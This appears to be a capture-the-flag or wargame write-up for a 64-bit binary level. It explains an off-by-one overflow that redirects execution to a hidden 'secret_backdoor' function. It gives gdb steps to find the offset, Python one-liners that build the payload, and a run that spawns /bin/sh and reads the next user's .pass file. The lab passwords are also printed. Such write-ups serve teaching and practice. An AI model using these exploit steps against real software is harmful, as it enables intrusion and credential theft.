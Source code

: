 # Level09 - 64 bits -

## Local script usage

Requirements:

- `gdb-peda`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level07/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level09 | `GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8` |
| end     | `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We can see a function `secret_backdoor` that is able to execute a given string. But this function is not called. We have to find a way to redirect the code.

The function used such as `fgets`, `strncpy` and `printf` are correctly used and not vulnerable.

But there is still a vulnerability: the function `set_username` fills 41 characters inside `msg.usr` instead 40 characters. As `msg` data are stored in a structure, data are contiguous. It means we are able to override the max length of the message. It is useful, because this length is used by `strncpy`. We are able to create an overflow.

First lets find the `secret_backdoor` address:

```shell
info function secret_backdoor
0x000055555555488c  secret_backdoor
```

Then, lets find the EIP address of the return of `handle_msg`

```shell
b*handle_msg+80 # before set_username
run
info frame
  Stack level 0, frame at 0x7fffffffe4e0: (...)
  rip at 0x7fffffffe4d8    # handle_msg return eip
```

And now, lets find the `msg` address, and calculate the offset with the EIP found

```shell
p $rbp-0xc0 # t_msg msg
  $1 = (void *) 0x7fffffffe410

p /d 0x7fffffffe4d8 - 0x7fffffffe410 # eip - msg
  $3 = 200 # offset
```

The offset is 200.

Our exploit will be something like:

```
USERNAME_INPUT: 'A' * 40 + (OFFSET + 8) # 8 bytes to write the x64 address
MESSAGE_INPUT:  'B' * OFFSET + SECRET_BACKDOOR_ADDRESS
BACKDOOR_INPUT: '/bin/sh'
```

Lets calculate the offset + 8 bytes in hexadecimal

```shell
p 200 + 8
  $2 = 0xd0
```

Perfect, we have everything we need

```shell
python -c "print 'A' * 40 + '\xd0'" > /tmp/exploit09
python -c "print 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'" >> /tmp/exploit09
echo "/bin/sh" >> /tmp/exploit09

~/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: Msg @Unix-Dude
>>: >: Msg sent!

$ whoami
  end
$ cat /home/users/end/.pass
  j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## Sources

### C

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man system](https://linux.die.net/man/3/system)
